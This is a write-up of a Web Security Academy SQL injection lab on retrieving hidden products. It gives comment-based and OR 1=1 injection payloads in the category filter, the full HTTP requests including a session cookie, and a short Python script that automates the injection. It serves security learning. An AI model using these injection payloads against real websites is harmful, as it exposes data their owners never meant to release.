

# Retrieving hidden data

URL: https://0af600d504269c4981e611a0000b002f.web-security-academy.net/

## Sitemap:

URL: https://0af600d504269c4981e611a0000b002f.web-security-academy.net/


URL: https://0af600d504269c4981e611a0000b002f.web-security-academy.net/product?productId=8


URL: https://0af600d504269c4981e611a0000b002f.web-security-academy.net/filter?category=Accessories


<br>

<br>

## SQL Injection Identification:


<br>


<br>

<br>

## Exploitation:

### Get all gifts:

Payload:

```bash
https://0af600d504269c4981e611a0000b002f.web-security-academy.net/filter?category=Gifts'+--+-
```


Request:

```bash
GET /filter?category=Gifts'+--+- HTTP/2
Host: 0af600d504269c4981e611a0000b002f.web-security-academy.net
Cookie: session=gsdqnAsUxgOANWVniEW3dLMLTFfDhseX
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0af600d504269c4981e611a0000b002f.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers


```

### Get every item:

Payload:

```bash
https://0af600d504269c4981e611a0000b002f.web-security-academy.net/filter?category=Gifts'+or+1%3d1--+-
```



Request:

```bash
GET /filter?category=Gifts'+or+1%3d1--+- HTTP/2
Host: 0af600d504269c4981e611a0000b002f.web-security-academy.net
Cookie: session=gsdqnAsUxgOANWVniEW3dLMLTFfDhseX
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0af600d504269c4981e611a0000b002f.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers


```

## Automation:

```python
#!/usr/bin/python3
##
import requests
import pwn
import re
#
def main(URL):
    payload=URL+"filter?category=Gifts'+or+1%3d1--+-"
    r=requests.get(payload)
    print(r.status_code)
    print(r.text)
#
main('https://0a7e00f50414faa0801dbc2e00a800a6.web-security-academy.net/')
```
